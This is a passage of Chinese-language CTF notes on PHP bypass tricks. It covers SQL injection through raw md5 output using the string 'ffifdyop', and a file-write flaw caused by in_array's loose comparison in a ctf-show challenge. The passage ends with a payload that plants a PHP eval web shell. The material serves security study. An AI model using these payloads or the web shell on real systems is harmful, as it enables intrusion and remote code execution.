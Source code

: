 国外有个网站也有一些收集的资料：[md5强碰撞收集](https://crypto.stackexchange.com/questions/1434/are-there-two-known-strings-which-have-the-same-md5-hash-value)

### md5($str,true)类型绕过

```php
$sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
```

```
将密码转换成16进制的hex值以后，再将其转换成字符串后包含’ ‘or ’ 6’

SELECT * FROM admin WHERE pass=’ ‘or ’ 6’

很明显可以注入了。

难点就在如何寻找这样的字符串，网上有
提供两个字符串： ffifdyop、129581926211651571912466741651878684928
但题目有长度限制，所以输入ffifdyop即可获取flag

再转成字符串:’ ’ ‘or’ 6

解析:存在 or 即代码的两边有一边为真既可以绕过，其实为垃圾代码没有任何用的。

or 后面有6，非零值即为真。既可以成功绕过。
```



## In_array中的弱类型比较

ctf-show中的一道题

```php
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}
```

查看这样一个结果：

```php
$allow = array(1,'2','3');
var_dump(in_array('1.php',$allow));//返回true

$allow = array('1','2','3');
var_dump(in_array('1.php',$allow));//返回false
```

in_array延用了php中的==，因为新加进去的随机数字每次都包含1，1存在的几率是最大的。
 payload：`n=1.php post:content=<?php eval($_POST[1]);?>`
